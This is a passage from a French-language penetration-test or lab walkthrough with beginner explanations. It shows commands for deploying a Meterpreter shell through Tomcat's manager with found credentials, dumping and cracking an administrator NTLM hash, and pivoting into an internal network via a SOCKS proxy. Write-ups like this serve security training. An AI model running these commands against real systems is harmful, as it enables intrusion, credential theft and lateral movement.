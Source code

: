 ```bash
set RPORT 8080
set HttpUsername admin
set HttpPassword P@ssw0rd123
set LHOST 10.10.14.5
exploit
# Résultat : Shell Meterpreter obtenu
```

**En clair, pour un débutant** : Nous avons trouvé un partage de fichiers accessible sans mot de passe, qui contenait des identifiants pour le serveur web Tomcat. Nous avons ensuite utilisé ces identifiants pour déployer notre code malveillant via l'interface d'administration de Tomcat.

#### Post-exploitation et extraction d'identifiants

```bash
# Dans Meterpreter
getuid  # NT AUTHORITY\SYSTEM (déjà privilégié)

# Extraction des hachages NTLM
load kiwi
creds_all
# Résultat : Hachage NTLM de l'administrateur obtenu
# Administrator:500:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::

# Sauvegarde du hachage pour cracking
echo "Administrator:500:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::" > hash.txt

# Cracking du hachage avec hashcat
hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt
# Résultat : Password123
```

**En clair, pour un débutant** : Nous avons extrait l'empreinte du mot de passe administrateur de la mémoire de Windows, puis utilisé un outil pour retrouver le mot de passe en clair à partir de cette empreinte.

### Machine 3 : Serveur interne (10.10.10.150)

#### Pivotement et reconnaissance

```bash
# Configuration du pivotement via la machine Windows
meterpreter > run autoroute -s 10.10.20.0/24
meterpreter > background

# Scan du réseau interne via le pivot
msf > use auxiliary/scanner/portscan/tcp
msf > set RHOSTS 10.10.20.15
msf > set PORTS 22,80,445
msf > run
# Résultat : Machine interne 10.10.20.15 avec ports 22 et 80 ouverts

# Configuration d'un proxy SOCKS
msf > use auxiliary/server/socks_proxy
msf > set SRVPORT 9050
msf > run

# Configuration de proxychains
echo "socks5 127.0.0.1 9050" >> /etc/proxychains4.conf

# Scan via le proxy
proxychains nmap -sT -sV -p 22,80 10.10.20.15
# Résultat : SSH et serveur web Apache
```
